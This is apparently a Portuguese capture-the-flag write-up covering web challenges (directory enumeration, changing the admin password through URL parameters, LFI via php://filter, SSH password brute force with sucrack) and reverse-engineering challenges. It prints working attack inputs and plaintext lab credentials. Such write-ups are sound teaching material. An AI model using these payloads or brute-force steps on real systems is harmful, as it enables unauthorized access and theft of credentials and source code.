

# GameNightmare UFSCar

## Web

### Recon (50)
```
O primeiro passo de um pentest é sempre enumerar o alvo. Quando falamos de um pentest web também procuramos arquivos esquecidos pelo administrador

http://64.137.228.30
```
Pegando o IP dado, podemos usar por exemplo a ferramenta `dirsearch` para obter os subdiretórios nele e arquivos php "perdidos":
```
sudo dirsearch http://64.137.228.30 -e .php
```
Encontramos o diretório `/_temp/`, que possui um arquivo y0ur_fl4g.txt que é contém a flag do desafio. <br>
flag: `POMBO{R3m3mb4_t0_3numerate}`

No outro arquivo nessa mesma pasta encontramos uma pista para o próximo chall.
```
Atenção pessoal do Q.A.
Façam seus testes com o usuário:

user: aluno
pass: aluno


Att, Gleise.
```
### fuck the admin (130)
```
Ok, you got credentials, but show me that you can CHANGE THE ADMIN PASSWORD and login :)

same address bitch.
```
Tentando trocar a senha do usuário aluno, que obtivemos no desafio Recon, recebemos a mensagem:
```
Do you cannot change 'aluno' password, it's a test account!
```
Percebemos que, ao trocar a senha, caímos no endereço [http://64.137.228.30/change_password.php?user=aluno&pass=aluno](http://64.137.228.30/change_password.php?user=aluno&pass=aluno). O que é uma dica forte que temos que mudar o parâmetro user e o pass de algum modo. <br>
Tentando substituir o user por admin e a senha por uma senha qualquer, chegamos ao link:
```
http://64.137.228.30/change_password.php?user=admin&pass=senha123
```
E recebemos a mensagem:
```
password updated with success!
```
Logando na conta admin com a senha que estabelecemos, temos a resposta do desafio: <br>
flag: `POMBO{My_Nam3_is_Gleise}`

Além disso, no link da página, temos `http://64.137.228.30/logged_in/admin.php?file=349ab674ce607874f5445576471825a3.php`. Repare que o file= é um forte indício de Local File Inclusion (LFI), que usaremos no próximo chall.

### Read the code (200)
```
show me that you know what to to with this vuln, noob
```
Utilizando um php filter para o LFI, podemos encontrar os códigos php nas páginas, por exemplo <br>
`
http://64.137.228.30/logged_in/admin.php?file=php://filter/convert.base64-encode/resource=/var/www/html/logged_in/index.php
`
<br>
Que retorna o código em "index.php" "criptografado" com base 64.
<br>
Então, pesquisando em diversas páginas do site, encontramos `data.php`, que possui o seguinte código.
```
<?php
  session_start();
  require '../database_control/init.php';
  popOut();

	/*

		POMBO{Im_Reading_Your_Code}

		não esquecer de atualizar os dados no sistema!

		user: gleise@64.137.229.36
		password: minhasenhaesegura


	*/
?>
<!DOCTYPE html>
.
.
.
```
De onde obtemos a dica para o próximo chall e a flag. <br>
flag: `POMBO{Im_Reading_Your_Code}`

### Pivoting (300)
```
can you get the flag in the ssh of admin account?
```
Vemos, ao logar na ssh, o arquivo `rockyou.txt`, que é uma wordlist famosa, que vem junto a algumas distros de segurança. <br>
Isso é um forte indício que esse desafio é um bruteforce no usuário admin. <br>
Usando então a ferramenta "sucrack", que podemos baixar direto do terminal:
```
wget https://labs.portcullis.co.uk/download/sucrack-1.2.3.tar.gz
```
Depois de instalar com os seguintes comandos:
```
tar xfz sucrack-1.2.3.tar.gz
cd sucrack-1.2.3
./configure
make
cd src
```
Executamos com a wordlist, rodando em 100 workers na cpu
```
./sucrack -w 100 -u admin ../../rockyou.txt
```
### Priv Escalation (600)
- TODO

## Reverse Engineering

### EXErcite your skills (50)
É dado um arquivo .exe e dito que os usuários não usam linux.<br>
Caso usemos o comando `file Malware.exe`, percebemos que é um MS-DOS, .NET <br>.
Então, tentamos usar um decompilador para extrair o código, como o `dnSpy`, por exemplo. <br>
Porém, ao abrirmos o arquivo decompilado, vemos que está cheio de códigos estranhos e nomes de funções incomuns. <br>
Desconfiamos que o .exe foi obfuscado. Portanto, o desobfuscaremos, usando o `de4dot`.
Rodando ele, geramos o arquivo `Malware.clean.exe`. <br>
Abrindo ele, na main encontramos a flag em texto.
<newline>

<newline>
flag: `HZVI{M4lw4re_C4n_b3_h0st3d_1n_y0ur_reg1str1es}`


### not_my_name (50)
Caso usemos o radare ou o IDAPro para visualizar o grafo de fluxo do arquivo dado, percebemos várias funções com os nomes da música
Abra o arquivo usando o gdb por exemplo

```
run
```
Então,  coloque um breakpoint em algum lugar que será executado, por exemplo na função main
```
b * main
```
E então, através do que percebemos pelo grafo, usamos
```
j jeff
```
E recebemos um [link](https://vimeo.com/271687045) de um vídeo. <br>
Na descrição do chall é dito que "quando acharmos que resolveu, a senha é o nome do chall", então usamos `not_my_name` para abrir o vídeo.
A flag encontra-se na descrição. <br>
flag: `SCMPv9{my_n4m3_1s_jeff}`

### Dead Presidents (150)
Existem diversos modos de resolver esse challenge:

#### Binary manipulation
Ao abrir um decompiler, como por exemplo o IDA, percebemos que a flag gerada depende exclusivamente do nome do presidente. <br>
Caso usemos o comando `strings` no arquivo, percebemos o nome "Bill Clinton", mencionado no enunciado. <br>
Ao tentar usar o nome Bill Clinton, recebemos uma mensagem de "nome já utilizado". <br>
Então, ao abrir o binário dado, com um editor de texto qualquer, como por exemplo o vim, procuramos por "Bill" e editamos para um nome qualquer.
Tentamos novamente, usamos o presidente `Bill Clinton` como nome e obtemos a resposta.
flag: `INSA{8c0165004d4ab5d6}`

#### Reverse Hashing
- TODO
